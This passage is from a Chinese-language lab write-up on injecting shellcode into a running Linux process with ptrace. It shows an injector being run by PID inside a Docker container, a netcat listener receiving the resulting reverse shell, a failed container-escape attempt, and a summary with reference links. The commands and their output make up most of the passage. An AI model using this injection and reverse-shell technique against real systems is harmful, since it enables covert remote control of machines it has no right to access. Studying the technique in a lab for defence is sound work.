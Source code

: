 ```
python -m SimpleHTTPServer 55555
```

查看python server进程:7365

 ```bash
➜  poc docker cp infect test:/root/
➜  poc docker exec -it test /bin/bash
root@f147ae171646:/# ps -ef | grep 5555
root      15260   7462  0 11:44 ?        00:00:00 python3 -m http.server 55555
root      15262  15233  0 11:45 pts/1    00:00:00 grep --color=auto 5555
root@f147ae171646:/# /root/infect 15260
+ Tracing process 15260
+ Waiting for process...
+ Getting Registers
+ Injecting shell code at 0x7fdb32ef77e4
+ Setting instruction pointer to 0x7fdb32ef77e6
+ Run it!
root@f147ae171646:/#
 ```

 结果：

```bash
[root@master ~]# nc -lvvp 4444
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.16.42.151.
Ncat: Connection from 172.16.42.151:37440.
ifconfig
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.42.151  netmask 255.255.255.0  broadcast 172.16.42.255
        inet6 fe80::20c:29ff:fe01:f943  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:01:f9:43  txqueuelen 1000  (Ethernet)
        RX packets 206535  bytes 221632693 (211.3 MiB)

```



测试动态链接库进行容器逃逸没有成功。可能是不能将容器里的so文件注入到宿主机的进程靶。



## 4. 总结

本文先使用动态链接库进行了进程注入，这种方式比较隐蔽，然后使用shellcode注入进程，两者的原理都是通过ptrace来实现的。shellcode的代码是单线程的所以会导致进程阻塞，也许可以加以改造，本人c代码能力有限，暂时不尝试。后续也许会添加用go实现的版本。









## 参考

- https://payloads.online/archivers/2020-01-01/2/
- https://www.52coder.net/post/ld-preload
- https://payloads.online/archivers/2020-01-01/1/

